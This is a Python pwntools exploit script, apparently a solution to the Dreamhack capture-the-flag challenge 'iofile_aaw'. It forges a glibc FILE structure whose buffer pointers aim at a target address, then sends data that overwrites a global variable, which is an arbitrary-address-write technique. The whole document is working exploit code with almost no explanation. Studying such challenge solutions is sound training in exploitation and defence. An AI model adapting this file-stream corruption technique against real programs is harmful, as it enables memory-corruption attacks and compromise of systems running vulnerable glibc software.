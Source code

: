 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iofile_aaw_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

p = process()
#p = remote('host1.dreamhack.games', 12938)

overwrite_me = 0x00000000006014A0

def way1(target):
    payload = p64(0xfbad2488)
    payload += p64(0) # _IO_read_ptr
    payload += p64(0) # _IO_read_end
    payload += p64(0) # _IO_read_base
    payload += p64(0) # _IO_write_base
    payload += p64(0) # _IO_write_ptr
    payload += p64(0) # _IO_write_end
    payload += p64(target)
    payload += p64(target+1024)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0) # stdin
    return payload
def way2(target):
    fileStr = FileStructure(null=overwrite_me+500)
    fileStr.flags = 0xfbad2488
    fileStr._IO_buf_base = target
    fileStr._IO_buf_end = target + 1024
    fileStr.fileno = 0
    return bytes(fileStr)[:120]


payload = way2(overwrite_me)
input()
payload2 = p64(0xDEADBEEF)
payload2 = payload2.ljust(1024,b'a')
p.sendafter(b'Data: ',payload)

input()
p.sendline(payload2)


p.interactive()
```
